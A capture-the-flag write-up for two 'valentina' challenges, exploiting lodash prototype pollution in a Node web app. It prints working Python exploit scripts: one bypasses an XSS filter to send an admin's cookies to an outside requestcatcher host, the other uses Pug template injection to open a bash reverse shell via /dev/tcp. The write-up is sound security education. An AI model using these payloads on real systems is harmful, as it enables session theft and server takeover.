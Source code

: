 # valentina

Valentina contained 2 challenges sharing a vulnerability but with different applications.

## Challenge 1

The website admin checks her reviews with secrets in her cookies.

## Walkthrough 1

Given that this project was deep into npm dependency hell the first obvious step was to check if any libraries had vulnerabilies.

```
$ npm audit
...
lodash  <=4.17.20
Severity: critical
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
Prototype pollution in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
...
```

Digging into these vulnerabilties and the source code unveiled that [CVE-2018-3721](https://snyk.io/test/npm/lodash/4.17.4#npm:lodash:20180130), a [prototype pollution](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/) vulnerability, was likely the target.

> The vulnerable functions are 'defaultsDeep', 'merge', and 'mergeWith' which allow a malicious user to modify the prototype of Object via __proto__ causing the addition or modification of an existing property that will exist on all objects.

```js
app.post('/add_review', function (req, res) {
	// ...
	let review_template = {
		review_id: id,
		name: "Valentina",
		message: "your work is amazing!",
		stars: 5
	}

	let new_review = req.body;
	_.merge(review_template, new_review); // <-- this looks vulnerable!
	let cleaned_msg = xss(new_review.message);
	reviews.set(id, cleaned_msg);
	// ...
});
```

Now that I had a way to pollute arbitrary objects, I just needed to find a way to bypass `xss()`, an html escaping function in [xssjs](https://github.com/leizongmin/js-xss).

```js
FilterXSS.prototype.process = function (html) {
	// ...
	var options = me.options; 			// not set in valentina
	var whiteList = options.whiteList;  // looks like we can control this
	// ...
```

Reading the source code revealed that we could control the `whiteList` variable which controlled which tags were escaped.

```json
"whiteList": {
	"a": ["target", "href", "title"],
	"abbr": ["title"],
	"address": [],
	"_comment": "...",
}
```

To retreieve the cookies I addded the `script` tag to the whitelist and than had the admin visit the review.

```py
import requests

url = "http://localhost:8999/add_review"
payload = "fetch('https://crimist.requestcatcher.com/'+document.cookie)"
review = requests.post(url, headers={'content-type': 'application/json'},
                            data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}')
id = review.text.split(":")[1]
print("http://localhost:8999/view_review?review_id=" + id) # submit this to /report
```

## Solve 1

`maple{l0d4sh_more_lyk_n0da5h_haha_get_it}`

## Challenge 2

`flag.txt` exists in the projects directory.

## Walkthrough 2

Given that this website was served by nodejs and I couldn't read arbitrary files it was clear I'd have to pwn the server further.

After searching for ways to exploit this prototype pollution vulnerability further I found [this blog post](https://blog.p6.is/AST-Injection/#Pug) about exploiting [pug](https://github.com/pugjs/pug), the template engine used in this project.

I won't re-hash their work, check out the post if you're interested. To summarize, it gets you RCE so you can pop a reverse shell.

```py
import requests

url = "http://localhost:8999"
review = requests.post(url + "/add_review", json={
    "__proto__": {
        "debug": True,
        "block": {
            "type": "Text",
            "line": "console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<ipip>/3333 0>&1'`))",
        },
    },
    "message": ":)",
})
```

## Solve 2

`maple{Th1s_was_really_c0mpl1cAted_Im_s0rrY}`
